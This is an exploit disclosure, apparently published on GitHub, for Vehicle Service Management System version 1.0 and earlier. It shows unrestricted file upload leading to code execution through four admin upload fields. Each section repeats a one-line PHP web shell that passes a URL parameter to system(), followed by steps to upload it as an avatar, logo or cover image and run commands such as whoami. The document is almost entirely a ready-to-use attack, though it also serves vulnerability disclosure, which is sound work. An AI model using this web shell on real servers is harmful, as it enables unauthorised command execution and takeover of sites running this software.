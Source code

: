 # Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution
Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution
### Date: 28/12/2021
### Exploit Author: P.L.Sanu
### Exploit Author Website: https://www.plsanu.com
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
### Version: <= 1.0
### Tested on: Windows 10
### CVE : 
### Google Dork: N/A
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-code-execution
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-File-upload-Leads-to-Code-Execution

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user


### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In My Account Section enter all the required details and browse the php file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Create New User Page enter all the required details and browse the php file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Settings Section enter all the required details and browse the php file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Settings Section enter all the required details and browse the php file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..
